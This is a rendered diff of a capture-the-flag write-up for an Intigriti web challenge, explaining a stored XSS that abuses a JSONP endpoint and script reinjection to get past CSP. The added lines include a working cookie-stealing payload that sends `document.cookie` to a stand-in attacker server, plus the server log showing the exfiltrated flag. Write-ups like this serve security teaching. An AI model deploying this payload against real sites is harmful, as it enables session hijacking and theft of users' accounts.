

Before and after one commit to Franc-Zar/CTFsWriteups, a Markdown page: intigriti/february-challenge-0226/README.md, 3 parts joined by grey strips. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/intigriti/february-challenge-0226/README.md
+++ b/intigriti/february-challenge-0226/README.md
@@ -57,7 +82,11 @@ def post_new():
         flash('Post created!', 'success')
         return redirect(url_for('post_view', post_id=post.id))
 ```
-Newly created posts are not properly sanitised; user-supplied content is stored without any security filtering.
+
+Newly created posts are not properly sanitised: user-supplied `title` and `content` are stored without any security filtering.
+Nothing particularly noteworthy, it seems.
+
+Digging deeper, we can see that the backend provides several utility functionalities under the `/api/` path, such as:
 
 ```python
 @app.route('/api/render')
@@ -119,18 +148,18 @@ def api_jsonp():
     return Response(response, mimetype='application/javascript')
 ```
 
-**JSONP (JSON with Padding)** is a legacy technique used to overcome browser **Same-Origin Policy (SOP)** restrictions for cross-origin requests before **Cross-Origin Resource Sharing (CORS)** existed.
+**JSONP (JSON with Padding)** is a legacy technique used to bypass browser-enforced **Same-Origin Policy (SOP)** restrictions on cross-origin requests, back when **Cross-Origin Resource Sharing (CORS)** did not yet exist — and when **“vibe coding”** simply meant writing code while listening to something cool in the background (see [Modjo - Lady (Hear Me Tonight)](https://www.youtube.com/watch?v=mMfxI3r_LyA)).
 
-Browsers normally block **fetch** or **XMLHttpRequest** calls from one domain to another (cross-origin) for security.
+Browsers normally block **fetch** or **XMLHttpRequest** calls from one domain to another **(cross-origin)** for security.
 
-`<script>` tags, however, are not restricted by SOP: they can load scripts from any domain.
+`<script>` tags, however, are not restricted by **SOP**: they can load scripts from any domain.
 
-JSONP works by returning executable JavaScript rather than raw JSON; the client provides the callback function name as a query parameter, and the server reflects this value directly into the response, wrapping the JSON payload inside a dynamically generated function call.
+**JSONP** works by returning executable JavaScript rather than raw JSON; the client provides the callback function name as a query parameter, and the server reflects this value directly into the response, wrapping the JSON payload inside a dynamically generated function call.
 
 The client code responsible for rendering and displaying user posts is partially presented below and comes from `/app/static/js/preview.js`.
 
-The application fetches user-submitted post content from `/api/render` on the client-side and inserts it directly into the **DOM** using `innerHTML`.
-It then processes code blocks for highlighting and reinjects any `<script src="/api/...">` tags.
+And now — assuming you actually clicked the link and let the iconic intro play — we should be right about at the moment when the singer finally comes in with that unmistakable ***“Lady…”***.
+Perfect timing, because this is where things start to get interesting:
 
 ```javascript
 fetch('/api/render?id=' + postId)
@@ -187,0 +255,37 @@ This “script reinjection” behavior acts as an **XSS gadget** and at this poi
+which results in the following response:
+
+```http
+HTTP/2 200 OK
+Date: Tue, 24 Feb 2026 19:26:19 GMT
+Content-Type: application/javascript; charset=utf-8
+Content-Length: 134
+Vary: Cookie
+Access-Control-Allow-Origin: *
+Strict-Transport-Security: max-age=31536000; includeSubDomains
+```
+```javascript
+fetch('https://attacker-server?'+document.cookie)//({"authenticated": true, "timestamp": 1771961179.5332115, "username": "test_user"})
+```
+
+By creating a post containing the following payload:
+
+```html
+<script src="/api/jsonp?callback=fetch('https://<attacker-server>?'%2Bdocument.cookie)//"</script>
+```
+
+it is possible to trigger the vulnerable script reinjection logic within `processContent()`. As a result, the browser loads and executes the script from `/api/jsonp`, where the callback parameter is fully attacker-controlled.
+
+When a victim views the malicious post, their browser executes the injected script in the context of the application.
+The crafted callback forces a request to the attacker-controlled server, appending `document.cookie` to the URL.
+Consequently, the victim’s cookies — including active session tokens — are exfiltrated.
+
+In essence, the **JSONP** endpoint becomes a **same-origin Trojan horse**: seemingly legitimate, but carrying attacker-controlled JavaScript past the **CSP** gates.
+
+![trojan_horse](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExM3NkNndod2JrbnY5eXl5aWZ0eWxid3F5emF0cWhudzhsMzIydzhuYiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26ueZ7bYkDQ4YeHx6/giphy.gif)
+
+After reporting the post containing the malicious payload to the challenge bot via `/report/<post_id>`, the bot visits the page and triggers the exploit.
+As confirmed by the attacker-controlled server logs, the bot’s request includes the exfiltrated cookies — revealing the flag contained within the session:
+
+```
+127.0.0.1 - - [24/Feb/2026 19:28:37] "OPTIONS /?flag=INTIGRITI{019c668f-bf9f-70e8-b793-80ee7f86e00b} HTTP/1.1" 501 -
+```
````
Also changed, not shown: other parts of intigriti/february-challenge-0226/README.md (+72 -9 lines).
